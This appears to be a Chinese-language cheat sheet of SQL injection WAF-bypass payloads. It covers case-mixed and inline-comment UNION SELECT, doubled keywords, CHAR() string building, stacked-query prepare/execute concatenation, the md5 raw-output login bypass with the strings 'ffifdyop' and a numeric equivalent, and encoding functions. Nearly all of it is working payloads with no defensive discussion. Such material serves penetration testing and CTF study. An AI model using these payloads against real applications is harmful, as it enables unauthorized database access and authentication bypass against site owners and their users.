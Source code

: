 ### 

### 绕过union，select，where等

使用大小写绕过

```python
id=-1'UnIoN/**/SeLeCT
```

内联注释绕过

```python
/*!selecT*//**//*!userName*/ ,PASSWORD FROM  USER  /*!wHerE*/  username="admin"
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364339746-83976821-30f1-45bc-9ddb-ddec7bf2188a.png#averageHue=%23dbbfab&id=ZHeMu&originHeight=380&originWidth=848&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

双关键字绕过

```python
id=-1'UNIunionONSeLselectECT1,2,3–-
```

```python
 SELECT  PASSWORD FROM USER  WHERE username=CONCAT(CHAR(97),CHAR(100),CHAR(109),CHAR(105),CHAR(110))
CONCAT(CHAR(97),CHAR(100),CHAR(109),CHAR(105),CHAR(110))==admin
```

堆叠注入情况下的绕过

```python
# 字符串拼接绕过
1';set @a=concat("sel","ect * from users");prepare sql from @a;execute sql;
```

### '".md5($pass,true)."' 登录绕过

```php
SELECT * FROM users WHERE password = '.md5($password,true).';
```

payload

```php
ffifdyop和129581926211651571912466741651878684928
```

都可以形成类似下面的payload

```php
SELECT * FROM users WHERE password = ''or'6.......'
```

### binary绕过

就是使用各大编码了

```python
hex、unhex、to、FROM_BASE64、TO_BASE64
```
